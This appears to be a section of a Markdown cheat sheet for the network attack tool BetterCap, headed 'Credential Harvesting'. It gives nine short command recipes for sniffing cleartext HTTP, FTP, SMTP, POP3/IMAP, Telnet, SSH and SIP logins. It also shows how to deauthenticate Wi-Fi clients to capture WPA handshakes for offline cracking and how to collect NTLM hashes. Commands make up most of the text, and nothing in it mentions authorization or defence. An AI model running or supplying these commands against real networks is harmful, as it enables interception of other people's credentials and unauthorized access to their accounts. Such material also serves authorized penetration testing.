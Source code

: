 #### Credential Harvesting

BetterCap can capture and log various types of credentials transmitted over the network.

1. **Capturing HTTP Basic Auth Credentials**: Captures HTTP Basic Auth credentials as they pass through the network.
    ```bash
    set http.proxy.script http-auth-sniffer.js
    http.proxy on
    net.sniff on
    ```
2. **Capturing FTP Credentials**: Captures FTP login credentials sent in cleartext over the network.
    ```bash
    set net.sniff.filter tcp port 21
    net.sniff on
    ```
3. **Capturing SMTP Credentials**: Captures SMTP credentials from email clients using unencrypted SMTP.
    ```bash
    set net.sniff.filter tcp port 25
    net.sniff on
    ```
4. **Capturing POP3/IMAP Credentials**: Intercepts email login credentials sent via unencrypted POP3 or IMAP.
    ```bash
    set net.sniff.filter tcp port 110 or tcp port 143
    net.sniff on
    ```
5. **Capturing Wi-Fi WPA Handshakes**: Forces a Wi-Fi client to reconnect, capturing the WPA handshake for offline cracking.
    ```bash
    wifi.recon on
    wifi.deauth <target_bssid>
    ```
6. **Intercepting SSH Sessions**: Monitors and logs SSH sessions, which may expose credentials if older SSH versions or weak encryption are used.
    ```bash
    set net.sniff.filter tcp port 22
    net.sniff on
    ```
7. **Capturing Telnet Credentials**: Captures Telnet credentials, which are often transmitted in plaintext.
    ```bash
    set net.sniff.filter tcp port 23
    net.sniff on
    ```
8. **Capturing SIP Credentials**: Captures SIP (Session Initiation Protocol) credentials used in VoIP communications.
    ```bash
    set net.sniff.filter udp port 5060
    net.sniff on
    ```
9. **Collecting Hashes with BetterCap**: Intercepts NTLM or other hashes transmitted over HTTP, useful for offline password cracking.
    ```bash
    set http.proxy.script hash-sniffer.js
    http.proxy on
    net.sniff on
    ```
